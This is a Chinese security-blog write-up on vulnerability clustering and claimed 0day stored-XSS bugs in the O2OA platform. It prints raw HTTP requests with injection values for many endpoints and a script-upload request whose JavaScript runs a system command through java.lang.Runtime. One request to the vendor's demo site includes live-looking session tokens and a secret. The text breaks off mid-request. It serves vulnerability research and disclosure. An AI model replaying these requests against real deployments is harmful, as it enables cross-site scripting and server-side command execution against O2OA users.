





# 从漏洞聚集现象到o2oa的20个0day漏洞挖掘-先知社区

> **来源**: https://xz.aliyun.com/news/18665  
> **文章ID**: 18665

---

# 漏洞聚集现象

### 什么是漏洞聚集现象

漏洞并不是平均分布在系统中的。研究和实战经验都表明，它们往往扎堆出现在某些模块，这就是所谓的漏洞聚集（Vulnerability Clustering）现象。

### 为什么会聚集？

* 复杂度高：逻辑分支多、耦合严重的模块更容易出错。
* 频繁变更：代码改动多，测试覆盖不足，自然更容易产生新问题。
* 设计缺陷：某个错误的架构决策可能带来成片的安全隐患。
* 开发习惯：同一开发者或团队往往会重复相同的思维模式和编码习惯，从而在相邻区域留下相似的漏洞。

### 相关理论

* 缺陷集中效应：20% 的代码可能包含 80% 的缺陷，这和经典的帕累托法则一致。
* 局部性假说：如果某段代码出现过漏洞，临近区域往往也存在同源问题。
* 同源性效应：共享相同输入、输出或数据结构的函数，常会继承同一类风险。

### 在漏洞挖掘中的意义

当我们审计一个Web应用时，一定要去vuldb等平台搜索历史漏洞，并对历史漏洞的成因进行分析，这对我们挖掘新的漏洞有很大的帮助。

# o2oa的0day挖掘

### 历史漏洞分析

在vuldb去搜索o2oa，结果如下：  
  
第一条一下子吸引了我的注意力，o2oa的会议设置处存在xss漏洞，我们来看一下他的advertise：  
<https://github.com/o2oa/o2oa/issues/167>  
漏洞版本为O2OA 9.1.3，这个版本的显然是被修复了，但是不影响我们去进行审计。事实上，他给出的[漏洞测试地址](https://sample.o2oa.net/x_desktop/index.html?view=default)到现在还是低于这个版本的，因此可以进行验证。  
抓个数据包看一下：

```
POST /x_meeting_assemble_control/jaxrs/config?v=-4a1e76a HTTP/1.1
Host: sample.o2oa.net
Connection: keep-alive
sec-ch-ua-platform: "Windows"
Authorization: XKXL_d0PoMPSUSS7LC4QtkuBzT5P0fMsoCwiOcbV8szFF4Y0GaJ6_BVydBstg10b4KRuRao4oUKQ64x7OFFTz8lYtFEiEJUKKGg6WKIlmL8VlvGvNKR00w_DkSuX-o1fvsR91hDtdeudV2PO1F3kxrGbnJPABg5H
Accept-Language: zh-CN
sec-ch-ua: "Not;A=Brand";v="99", "Google Chrome";v="139", "Chromium";v="139"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: text/html,application/json,*/*
Content-Type: application/json; charset=UTF-8
Origin: https://sample.o2oa.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://sample.o2oa.net/x_desktop/index.html?view=default
Accept-Encoding: gzip, deflate, br, zstd
Cookie: sample=XKXL_d0PoMPSUSS7LC4QtkuBzT5P0fMsoCwiOcbV8szFF4Y0GaJ6_BVydBstg10b4KRuRao4oUKQ64x7OFFTz8lYtFEiEJUKKGg6WKIlmL8VlvGvNKR00w_DkSuX-o1fvsR91hDtdeudV2PO1F3kxrGbnJPABg5H
Content-Length: 742

{
  "process": {
    "name": "会议申请",
    "id": "fdeac7f0-010b-49e0-b9d9-900979c61046",
    "application": "b3a0e81e-8104-4bf1-b530-681ac7b885f6",
    "applicationName": "会议管理",
    "alias": ""
  },
  "weekBegin": "0",
  "meetingViewer": [],
  "mobileCreateEnable": "true",
  "disableViewList": [],
  "typeList": [""],
  "toMyMeetingViewName": "">",
  "toMonthViewName": "",
  "toWeekViewName": "",
  "toDayViewName": "",
  "toListViewName": "",
  "toRoomViewName": "",
  "enableOnline": false,
  "onlineProduct": "其他",
  "onlineConfig": {
    "hstUrl": "",
    "hstKey": "4QY08Kyh",
    "hstSecret": "HpQi5csSMrufkM)b&#YWVlr7o*wWUG3G",
    "hstAuth": false,
    "o2ToHstUid": "employee"
  }
}
```

跟踪到`/x_organization_assemble_personal/jaxrs/definition/calendarConfig`这个路由（由于项目不是本地搭建，因此无法断点调试）  
跟踪到对应的controller方法：

```
@JaxrsMethodDescribe(value = "保存会议系统配置.", action = ActionSaveConfig.class)  
@POST  
@Produces(HttpMediaType.APPLICATION_JSON_UTF_8)  
@Consumes(MediaType.APPLICATION_JSON)  
public void saveSystemConfig(@Suspended final AsyncResponse asyncResponse, @Context HttpServletRequest request,  
                JsonElement jsonElement) {  
    ActionResult<ActionSaveConfig.Wo> result = new ActionResult<>();  
    EffectivePerson effectivePerson = this.effectivePerson(request);  
    try {  
       result = new ActionSaveConfig().execute(effectivePerson, jsonElement);  
    } catch (Exception e) {  
       logger.error(e, effectivePerson, request, jsonElement);  
       result.error(e);  
    }  
    asyncResponse.resume(ResponseFactory.getEntityTagActionResultResponse(request, result));  
}
```

这个方法一下引起了我的警觉，不是因为写的有什么异常之处，而是因为写的**太正常了**，和无数的其他接口写的都非常类似。  
那么久说明了一个问题，`asyncResponse.resume`方法，这个用于o2oa的数据返回的方法，肯定是没有进行输出编码的。  
除此以外，像ruoyi中的那种去全局的XSSFilter，也肯定是没有配置的。  
（这里说句题外话，放一下若依的XSSFilter）：

```
package com.ruoyi.framework.config;

import java.util.HashMap;
import java.util.Map;
import javax.servlet.DispatcherType;
import org.springframework.beans.factory.annotation.Value;
import org.springframework.boot.autoconfigure.condition.ConditionalOnProperty;
import org.springframework.boot.web.servlet.FilterRegistrationBean;
import org.springframework.context.annotation.Bean;
import org.springframework.context.annotation.Configuration;
import com.ruoyi.common.utils.StringUtils;
import com.ruoyi.common.xss.XssFilter;

/**
 * Filter配置
 *
 * @author ruoyi
 */
@Configuration
@ConditionalOnProperty(value = "xss.enabled", havingValue = "true")
public class FilterConfig
{
    @Value("${xss.excludes}")
    private String excludes;

    @Value("${xss.urlPatterns}")
    private String urlPatterns;

    @SuppressWarnings({ "rawtypes", "unchecked" })
    @Bean
    public FilterRegistrationBean xssFilterRegistration()
    {
        FilterRegistrationBean registration = new FilterRegistrationBean();
        registration.setDispatcherTypes(DispatcherType.REQUEST);
        registration.setFilter(new XssFilter());
        registration.addUrlPatterns(StringUtils.split(urlPatterns, ","));
        registration.setName("xssFilter");
        registration.setOrder(FilterRegistrationBean.HIGHEST_PRECEDENCE);
        Map<String, String> initParameters = new HashMap<String, String>();
        initParameters.put("excludes", excludes);
        registration.setInitParameters(initParameters);
        return registration;
    }
}
```

他既没有输出编码，也没有全局的Filter，而且是restful架构，没有Thymeleaf和JSP等默认的转义，那么我们就有道理推测一个问题：  
**他的整个项目几乎所有路由都是存在XSS的**

### 19个存储型XSS 0day挖掘

在此基础上，我挖掘出了19条路由的存储型XSS漏洞：

```
/x_organization_assemble_personal/jaxrs/definition/calendarConfig
/x_file_assemble_control/jaxrs/attachment/upload/folder/{folderId}
/x_program_center/jaxrs/script
/x_portal_assemble_designer/jaxrs/dict/{id}
/x_portal_assemble_designer/jaxrs/widget
/x_portal_assemble_designer/jaxrs/page
/x_program_center/jaxrs/agent
/x_program_center/jaxrs/invoke
/x_cms_assemble_control/jaxrs/design/appdict
/x_cms_assemble_control/jaxrs/form
/x_cms_assemble_control/jaxrs/script
/x_processplatform_assemble_designer/jaxrs/form
/x_organization_assemble_control/jaxrs/unit/{flag}
/x_processplatform_assemble_designer/jaxrs/process
/x_processplatform_assemble_designer/jaxrs/script
/x_query_assemble_designer/jaxrs/stat
/x_query_assemble_designer/jaxrs/table
/x_query_assemble_designer/jaxrs/statement
/x_query_assemble_designer/jaxrs/importmodel
```

由于存在漏洞的路由非常多，所以其实也不用什么静态审计工具了，对着前端的页面随手一抓一大把。  
核心就是在yakit中把GET和DELETE过滤掉，只看PUT和POST就行：  
  
由于存在漏洞的路由过多，这里就不对应着源码一点一点的讲分析过程了，直接贴路由与对应的数据包：

##### /x\_organization\_assemble\_personal/jaxrs/definition/calendarConfig

```
PUT /x_organization_assemble_personal/jaxrs/definition/calendarConfig?v=develop-10.0-410-3d5e0d2 HTTP/1.1
Host: localhost
Cookie: x-token=Wrr7kmtfAdHix4JgERWhu-K6ZlusjUyzvPAekU6E6zc
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate, br, zstd
Authorization: Wrr7kmtfAdHix4JgERWhu-K6ZlusjUyzvPAekU6E6zc
Sec-Fetch-Site: same-origin
Referer: http://localhost/x_desktop/index.html
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Content-Type: application/json; charset=UTF-8
Accept-Language: zh-CN
sec-ch-ua: "Not;A=Brand";v="99", "Google Chrome";v="139", "Chromium";v="139"
Accept: text/html,application/json,*/*
Origin: http://localhost
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Content-Length: 154

{"weekBegin":"0","disableViewList":[],"toMonthViewName":"">","toWeekViewName":"","toDayViewName":"","toListViewName":""}
```

##### /x\_organization\_assemble\_control/jaxrs/person/{personId}

```
PUT /x_organization_assemble_control/jaxrs/person/a398e8f8-c890-4d27-8492-a2d4b229fc57?v=develop-10.0-410-3d5e0d2 HTTP/1.1
Host: localhost
Authorization: Wrr7kmtfAdGxU2VpRkHWqac_GXTO21jzvPAekU6E6zc
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Content-Type: application/json; charset=UTF-8
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
sec-ch-ua-mobile: ?0
Accept: text/html,application/json,*/*
Origin: http://localhost
sec-ch-ua: "Not;A=Brand";v="99", "Google Chrome";v="139", "Chromium";v="139"
Referer: http://localhost/x_desktop/index.html
Cookie: x-token=Wrr7kmtfAdGxU2VpRkHWqac_GXTO21jzvPAekU6E6zc
Accept-Language: zh-CN
Sec-Fetch-Site: same-origin
Accept-Encoding: gzip, deflate, br, zstd
sec-ch-ua-platform: "Windows"
Content-Length: 858

{"woIdentityList":[],"woRoleList":[],"woGroupList":[],"woPersonAttributeList":[],"control":{"allowEdit":true,"allowDelete":true},"id":"a398e8f8-c890-4d27-8492-a2d4b229fc57","genderType":"m","signature":"","pinyin":"hack","pinyinInitial":"hack","description":"">","name":"hack","nickName":"","employee":"1","unique":"1","distinguishedName":"hack@1@P","orderNumber":240796042,"controllerList":[],"superior":"","lastLoginTime":"2025-08-18 23:52:16","lastLoginAddress":"172.17.0.1","lastLoginClient":"","ipAddress":"","mail":"","weixin":"","qq":"","mobile":"18641372919","officePhone":"","failureTime":"2025-08-18 23:48:54","failureCount":3,"language":"zh-CN","topUnitList":[],"status":"0","createTime":"2025-08-18 23:47:22","updateTime":"2025-08-18 23:52:16","boardDate":"","birthday":"","subjectSecurityClearance":null}
```

##### /x\_program\_center/jaxrs/script

```
POST /x_program_center/jaxrs/script?v=develop-10.0-410-3d5e0d2 HTTP/1.1
Host: localhost
Cookie: x-token=Wrr7kmtfAdF_VIsbJE2G2wBq8Aq-IpgHvPAekU6E6zc
Authorization: Wrr7kmtfAdF_VIsbJE2G2wBq8Aq-IpgHvPAekU6E6zc
sec-ch-ua: "Not;A=Brand";v="99", "Google Chrome";v="139", "Chromium";v="139"
Content-Type: application/json; charset=UTF-8
Sec-Fetch-Dest: empty
Accept: text/html,application/json,*/*
Accept-Encoding: gzip, deflate, br, zstd
sec-ch-ua-platform: "Windows"
Accept-Language: zh-CN
Origin: http://localhost
Sec-Fetch-Mode: cors
Referer: http://localhost/x_desktop/index.html
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Sec-Fetch-Site: same-origin
sec-ch-ua-mobile: ?0
Content-Length: 685

{"name":"">","alias":"">","description":"">","language":"javascript","dependScriptList":[],"isNewScript":true,"text":"var a = mainOutput(); \r
function mainOutput() {\r
    var clazz = Java.type("java.lang.Class");\r
    var rt = clazz.forName("java.lang.Runtime");\r
    var stringClazz = Java.type("java.lang.String");\r
\r
    var getRuntimeMethod = rt.getMethod("getRuntime");\r
    var execMethod = rt.getMethod("exec",stringClazz);\r
    var runtimeObject = getRuntimeMethod.invoke(rt);\r
    execMethod.invoke(runtimeObject,"open -a Calculator");\r
}","validated":true}
```

##### /x\_portal\_assemble\_designer/jaxrs/dict/{id}

```
PUT /x_portal_assemble_designer/jaxrs/dict/bcdc7ee3-8432-4266-bbc7-1dc9cbd3a6dc?v=develop-10.0-410-3d5e0d2&mehtrsle HTTP/1.1
Host: localhost
sec-ch-ua: "Not;A=Brand";v="99", "Google Chrome";v="139", "Chromium";v="139"
Accept-Encoding: gzip, deflate, br, zstd
sec-ch-ua-platform: "Windows"
sec-ch-ua-mobile: ?0
Accept: text/html,application/json,*/*
Authorization: Wrr7kmtfAdF_VIsbJE2G25F4_rjJhOkAvPAekU6E6zc
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Content-Type: application/json; charset=UTF-8
Cookie: x-token=Wrr7kmtfAdF_VIsbJE2G25F4_rjJhOkAvPAekU6E6zc
Origin: http://localhost
Referer: http://localhost/x_desktop/index.html
Sec-Fetch-Dest: empty
Accept-Language: zh-CN
Content-Length: 355

{"data":{},"id":"bcdc7ee3-8432-4266-bbc7-1dc9cbd3a6dc","application":"f17056a7-d17f-4215-aa94-604792a59cbb","name":"">","alias":"">","project":"portal","description":"">","createTime":"2025-08-19 08:50:12","updateTime":"2025-08-19 08:50:12","applicationName":"hacker"}
```

##### /x\_portal\_assemble\_designer/jaxrs/widget

```
POST /x_portal_assemble_designer/jaxrs/widget?v=develop-10.0-410-3d5e0d2&mehtw2an HTTP/1.1
Host: localhost
Authorization: Wrr7kmtfAdF_VIsbJE2G2waNgIEKzLQvvPAekU6E6zc
Sec-Fetch-Dest: empty
Cookie: x-token=Wrr7kmtfAdF_VIsbJE2G2waNgIEKzLQvvPAekU6E6zc
Origin: http://localhost
sec-ch-ua-mobile: ?0
sec-ch-ua: "Not;A=Brand";v="99", "Google Chrome";v="139", "Chromium";v="139"
Sec-Fetch-Mode: cors
Referer: http://localhost/x_desktop/index.html
Accept: text/html,application/json,*/*
Accept-Language: zh-CN
Accept-Encoding: gzip, deflate, br, zstd
Content-Type: application/json; charset=UTF-8
Sec-Fetch-Site: same-origin
sec-ch-ua-platform: "Windows"
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Content-Length: 4487

{
  "id": "3860c8d0-633e-4e67-9fba-2215ab619143",
  "name": "">",
  "alias": "">",
  "hasMobile": false,
  "description": "">",
  "portal": "f17056a7-d17f-4215-aa94-604792a59cbb",
  "data": "{\"json\":{\"id\":\"3860c8d0-633e-4e67-9fba-2215ab619143\",\"name\":\"\\\">\",\"type\":\"Form\",\"mode\":\"PC\",\"description\":\"\\\">\",\"application\":\"f17056a7-d17f-4215-aa94-604792a59cbb\",\"applicationName\":\"hacker\",\"styles\":{\"background-color\":\"#ffffff\"},\"properties\":{},\"cssLinks\":[],\"scriptSrc\":[],\"jsheader\":{\"code\":\"\",\"html\":\"\"},\"events\":{\"queryLoad\":{\"code\":\"\",\"html\":\"\"},\"beforeLoad\":{\"code\":\"\",\"html\":\"\"},\"beforeModulesLoad\":{\"code\":\"\",\"html\":\"\"},\"afterModulesLoad\":{\"code\":\"\",\"html\":\"\"},\"postLoad\":{\"code\":\"\",\"html\":\"\"},\"load\":{\"code\":\"\",\"html\":\"\"},\"afterLoad\":{\"code\":\"\",\"html\":\"\"},\"beforeClose\":{\"code\":\"\",\"html\":\"\"},\"help\":{\"code\":\"\",\"html\":\"\"},\"unload\":{\"code\":\"\",\"html\":\"\"},\"click\":{\"code\":\"\",\"html\":\"\"},\"dblclick\":{\"code\":\"\",\"html\":\"\"},\"keydown\":{\"code\":\"\",\"html\":\"\"},\"keypress\":{\"code\":\"\",\"html\":\"\"},\"keyup\":{\"code\":\"\",\"html\":\"\"},\"mousedown\":{\"code\":\"\",\"html\":\"\"},\"mousemove\":{\"code\":\"\",\"html\":\"\"},\"mouseout\":{\"code\":\"\",\"html\":\"\"},\"mouseover\":{\"code\":\"\",\"html\":\"\"},\"mouseup\":{\"code\":\"\",\"html\":\"\"},\"focus\":{\"code\":\"\",\"html\":\"\"},\"blur\":{\"code\":\"\",\"html\":\"\"},\"submit\":{\"code\":\"\",\"html\":\"\"},\"reset\":{\"code\":\"\",\"html\":\"\"}},\"moduleList\":{},\"fieldList\":{},\"css\":{\"code\":\"\"},\"formStyleType\":\"none\",\"pid\":\"PC3860c8d0-633e-4e67-9fba-2215ab6191433860c8d0-633e-4e67-9fba-2215ab619143\",\"category\":\"\\\">\",\"widgetList\":[]},\"html\":\"<div mwftype=\\\"form\\\" id=\\\"3860c8d0-633e-4e67-9fba-2215ab619143\\\" class=\\\"css3860c8d0633e4e679fba2215ab619143\\\" style=\\\"\\\"></div>\",\"id\":\"\",\"isNewPage\":true}",
  "mobileData": "{\"json\":{\"id\":\"\",\"name\":\"新建表单\",\"type\":\"Form\",\"mode\":\"Mobile\",\"description\":\"\",\"application\":\"\",\"applicationName\":\"\",\"styles\":{},\"properties\":{},\"cssLinks\":[],\"scriptSrc\":[],\"jsheader\":{\"code\":\"\",\"html\":\"\"},\"events\":{\"help\":{\"code\":\"\",\"html\":\"\"},\"load\":{\"code\":\"\",\"html\":\"\"},\"unload\":{\"code\":\"\",\"html\":\"\"},\"click\":{\"code\":\"\",\"html\":\"\"},\"dblclick\":{\"code\":\"\",\"html\":\"\"},\"keydown\":{\"code\":\"\",\"html\":\"\"},\"keypress\":{\"code\":\"\",\"html\":\"\"},\"keyup\":{\"code\":\"\",\"html\":\"\"},\"mousedown\":{\"code\":\"\",\"html\":\"\"},\"mousemove\":{\"code\":\"\",\"html\":\"\"},\"mouseout\":{\"code\":\"\",\"html\":\"\"},\"mouseover\":{\"code\":\"\",\"html\":\"\"},\"mouseup\":{\"code\":\"\",\"html\":\"\"},\"focus\":{\"code\":\"\",\"html\":\"\"},\"blur\":{\"code\":\"\",\"html\":\"\"},\"submit\":{\"code\":\"\",\"html\":\"\"},\"reset\":{\"code\":\"\",\"html\":\"\"}},\"moduleList\":{},\"fieldList\":{}},\"html\":\"<div MWFType=\\\"form\\\" id=\\\"\\\"></div>\",\"id\":\"\",\"isNewPage\":true}"
}
```

##### /x\_portal\_assemble\_designer/jaxrs/page

```
POST /x_portal_assemble_designer/jaxrs/page?v=develop-10.0-410-3d5e0d2&mehtxtp8 HTTP/1.1
Host: localhost
Referer: http://localhost/x_desktop/index.html
Origin: http://localhost
Accept-Encoding: gzip, deflate, br, zstd
Authorization: Wrr7kmtfAdF_VIsbJE2G2ynEC51VZ0LQvPAekU6E6zc
Sec-Fetch-Site: same-origin
sec-ch-ua-platform: "Windows"
sec-ch-ua: "Not;A=Brand";v="99", "Google Chrome";v="139", "Chromium";v="139"
Content-Type: application/json; charset=UTF-8
sec-ch-ua-mobile: ?0
Accept-Language: zh-CN
Cookie: x-token=Wrr7kmtfAdF_VIsbJE2G2ynEC51VZ0LQvPAekU6E6zc
Accept: text/html,application/json,*/*
Sec-Fetch-Mode: cors
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Sec-Fetch-Dest: empty
Content-Length: 4626

{
  "id": "06739497-ac5d-48bb-8724-ece1c71655c2",
  "name": "">",
  "alias": "">",
  "hasMobile": false,
  "description": "">",
  "portal": "f17056a7-d17f-4215-aa94-604792a59cbb",
  "data": "{\"json\":{\"id\":\"06739497-ac5d-48bb-8724-ece1c71655c2\",\"name\":\"\\\">\",\"type\":\"Form\",\"mode\":\"PC\",\"description\":\"\\\">\",\"application\":\"f17056a7-d17f-4215-aa94-604792a59cbb\",\"applicationName\":\"hacker\",\"styles\":{\"background-color\":\"#ffffff\"},\"properties\":{},\"cssLinks\":[],\"scriptSrc\":[],\"jsheader\":{\"code\":\"\",\"html\":\"\"},\"events\":{\"queryLoad\":{\"code\":\"\",\"html\":\"\"},\"beforeLoad\":{\"code\":\"\",\"html\":\"\"},\"beforeModulesLoad\":{\"code\":\"\",\"html\":\"\"},\"afterModulesLoad\":{\"code\":\"\",\"html\":\"\"},\"postLoad\":{\"code\":\"\",\"html\":\"\"},\"load\":{\"code\":\"\",\"html\":\"\"},\"afterLoad\":{\"code\":\"\",\"html\":\"\"},\"beforeClose\":{\"code\":\"\",\"html\":\"\"},\"help\":{\"code\":\"\",\"html\":\"\"},\"unload\":{\"code\":\"\",\"html\":\"\"},\"click\":{\"code\":\"\",\"html\":\"\"},\"dblclick\":{\"code\":\"\",\"html\":\"\"},\"keydown\":{\"code\":\"\",\"html\":\"\"},\"keypress\":{\"code\":\"\",\"html\":\"\"},\"keyup\":{\"code\":\"\",\"html\":\"\"},\"mousedown\":{\"code\":\"\",\"html\":\"\"},\"mousemove\":{\"code\":\"\",\"html\":\"\"},\"mouseout\":{\"code\":\"\",\"html\":\"\"},\"mouseover\":{\"code\":\"\",\"html\":\"\"},\"mouseup\":{\"code\":\"\",\"html\":\"\"},\"focus\":{\"code\":\"\",\"html\":\"\"},\"blur\":{\"code\":\"\",\"html\":\"\"},\"submit\":{\"code\":\"\",\"html\":\"\"},\"reset\":{\"code\":\"\",\"html\":\"\"}},\"moduleList\":{},\"fieldList\":{},\"css\":{\"code\":\"\"},\"formStyleType\":\"none\",\"pid\":\"PC06739497-ac5d-48bb-8724-ece1c71655c206739497-ac5d-48bb-8724-ece1c71655c2\",\"languageType\":\"none\",\"languageScript\":{\"code\":\"\",\"html\":\"\"},\"category\":\"\\\">\",\"widgetList\":[]},\"html\":\"<div mwftype=\\\"form\\\" id=\\\"06739497-ac5d-48bb-8724-ece1c71655c2\\\" class=\\\"css06739497ac5d48bb8724ece1c71655c2\\\" style=\\\"\\\"></div>\",\"id\":\"\",\"isNewPage\":true}",
  "mobileData": "{\"json\":{\"id\":\"06739497-ac5d-48bb-8724-ece1c71655c2\",\"name\":\"新建表单\",\"type\":\"Form\",\"mode\":\"Mobile\",\"description\":\"\",\"application\":\"\",\"applicationName\":\"\",\"styles\":{},\"properties\":{},\"cssLinks\":[],\"scriptSrc\":[],\"jsheader\":{\"code\":\"\",\"html\":\"\"},\"events\":{\"help\":{\"code\":\"\",\"html\":\"\"},\"load\":{\"code\":\"\",\"html\":\"\"},\"unload\":{\"code\":\"\",\"html\":\"\"},\"click\":{\"code\":\"\",\"html\":\"\"},\"dblclick\":{\"code\":\"\",\"html\":\"\"},\"keydown\":{\"code\":\"\",\"html\":\"\"},\"keypress\":{\"code\":\"\",\"html\":\"\"},\"keyup\":{\"code\":\"\",\"html\":\"\"},\"mousedown\":{\"code\":\"\",\"html\":\"\"},\"mousemove\":{\"code\":\"\",\"html\":\"\"},\"mouseout\":{\"code\":\"\",\"html\":\"\"},\"mouseover\":{\"code\":\"\",\"html\":\"\"},\"mouseup\":{\"code\":\"\",\"html\":\"\"},\"focus\":{\"code\":\"\",\"html\":\"\"},\"blur\":{\"code\":\"\",\"html\":\"\"},\"submit\":{\"code\":\"\",\"html\":\"\"},\"reset\":{\"code\":\"\",\"html\":\"\"}},\"moduleList\":{},\"fieldList\":{}},\"html\":\"<div MWFType=\\\"form\\\" id=\\\"\\\"></div>\",\"id\":\"\",\"isNewPage\":true}"
}
```

##### /x\_program\_center/jaxrs/agent

```
POST /x_program_center/jaxrs/agent?v=develop-10.0-410-3d5e0d2 HTTP/1.1
Host: localhost
sec-ch-ua-platform: "Windows"
Sec-Fetch-Dest: empty
sec-ch-ua-mobile: ?0
Sec-Fetch-Mode: cors
sec-ch-ua: "Not;A=Brand";v="99", "Google Chrome";v="139", "Chromium";v="139"
Accept: text/html,application/json,*/*
Sec-Fetch-Site: same-origin
Accept-Language: zh-CN
Accept-Encoding: gzip, deflate, br, zstd
Content-Type: application/json; charset=UTF-8
Authorization: Wrr7kmtfAdF_VIsbJE2G2y6BnD2SWpMFvPAekU6E6zc
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Cookie: x-token=Wrr7kmtfAdF_VIsbJE2G2y6BnD2SWpMFvPAekU6E6zc
Referer: http://localhost/x_desktop/index.html
Origin: http://localhost
Content-Length: 434

{
  "name": "">",
  "id": "fbc0574c-2432-42a3-b90c-7f8f8eb43313",
  "alias": "">",
  "description": "",
  "isNewAgent": true,
  "text": "/********************
